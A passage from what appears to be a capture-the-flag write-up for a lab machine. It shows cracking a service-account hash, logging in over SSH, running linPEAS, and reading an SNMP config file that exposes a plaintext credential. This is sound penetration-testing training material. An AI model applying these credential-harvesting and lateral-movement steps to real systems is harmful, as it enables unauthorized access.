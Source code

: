 Dumping these into crackstation we successfully crack the service account hash:

![mentor_crack.png](../assets/mentor_assets/mentor_crack.png)

With this password I can now SSH in as svc:

```
┌──(ryan㉿kali)-[~/Tools/pivoting]
└─$ ssh svc@10.129.228.102
svc@10.129.228.102's password: 
Welcome to Ubuntu 22.04.1 LTS (GNU/Linux 5.15.0-56-generic x86_64)
```

Loading linPEAS onto the box, we find some snmp configuration files.

![mentor_conf.png](../assets/mentor_assets/mentor_conf.png)

Lets check that out.

```
svc@mentor:/tmp$ cat /etc/snmp/snmpd.conf
###########################################################################
#
# snmpd.conf
# An example configuration file for configuring the Net-SNMP agent ('snmpd')
# See snmpd.conf(5) man page for details
#
###########################################################################
# SECTION: System Information Setup
<SNIP>
createUser bootstrap MD5 SuperSecurePassword123__ DES
```
